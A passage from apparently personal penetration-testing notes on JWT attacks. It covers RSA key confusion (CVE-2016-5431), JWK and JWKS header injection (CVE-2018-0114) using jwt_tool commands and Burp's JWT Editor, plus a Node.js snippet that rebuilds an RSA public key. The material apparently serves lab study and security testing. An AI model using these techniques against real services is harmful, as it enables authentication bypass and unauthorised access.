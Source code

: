     <https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key>
    ```
    
- **RSA Key Confusion (CVE-2016-5431):**
    
    1. Find the Public Key → [Finding Public Keys · ticarpi/jwt_tool Wiki (github.com)](https://github.com/ticarpi/jwt_tool/wiki/Finding-Public-Keys)
        
        ```jsx
        /.well-known/jwks.json
        /openid/connect/jwks.json
        /jwks.json
        /api/keys
        /api/v1/keys
        ```
        
    2. You will also need to use the right format of the Public Key. If the key is provided then you're fine, if not then best guess is [PEM format](https://en.wikipedia.org/wiki/Privacy-Enhanced_Mail)
        
        Note that PEM should contain a single _newline_ character at the end, however some tools may miss this off when exporting a key.
        
        _Use jwt_tool's -V flag alongside the -pk public.pem argument to verify that the Public Key you found matches the key used to sign the token_
        
    3. `python3 jwt_tool.py JWT_HERE -X k -pk my_public.pem`
        

### JWT Header Parameter Injection

- ****`jwk` parameter**
    
    1. With the extension loaded, in Burp's main tab bar, go to the **JWT Editor Keys** tab.
    2. [Generate a new RSA key.](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/jwts#adding-a-jwt-signing-key)
    3. Send a request containing a JWT to Burp Repeater.
    4. In the message editor, switch to the extension-generated **JSON Web Token** tab and [modify](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/jwts#editing-jwts) the token's payload however you like.
    5. Click **Attack**, then select **Embedded JWK**. When prompted, select your newly generated RSA key.
    6. Send the request to test how the server responds.
    
    **JWKS Injection (CVE-2018-0114):**
    
    `$ python3 jwt_tool.py JWT_HERE -X i`
    
    - If page returns valid then you have a bypass - go tampering.
    
    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d6851b04-cbdf-4b1d-9063-981bdb275688/Untitled.png)
    
    ```jsx
    Embedded Public Key (CVE-2018-0114)
    If the JWT has embedded a public key like in the following scenario:
    
    Using the following nodejs script it's possible to generate a public key from that data:
    --------------------------------------------
    const NodeRSA = require('node-rsa');
    const fs = require('fs');
    n ="ANQ3hoFoDxGQMhYOAc6CHmzz6_Z20hiP1Nvl1IN6phLwBj5gLei3e4e-DDmdwQ1zOueacCun0DkX1gMtTTX36jR8CnoBRBUTmNsQ7zaL3jIU4iXeYGuy7WPZ_TQEuAO1ogVQudn2zTXEiQeh-58tuPeTVpKmqZdS3Mpum3l72GHBbqggo_1h3cyvW4j3QM49YbV35aHV3WbwZJXPzWcDoEnCM4EwnqJiKeSpxvaClxQ5nQo3h2WdnV03C5WuLWaBNhDfC_HItdcaZ3pjImAjo4jkkej6mW3eXqtmDX39uZUyvwBzreMWh6uOu9W0DMdGBbfNNWcaR5tSZEGGj2divE8";
    e = "AQAB";
    const key = new NodeRSA();
    var importedKey = key.importKey({n: Buffer.from(n, 'base64'),e: Buffer.from(e, 'base64'),}, 'components-public');
    console.log(importedKey.exportKey("public"));
    -------------------------------------------------------------------------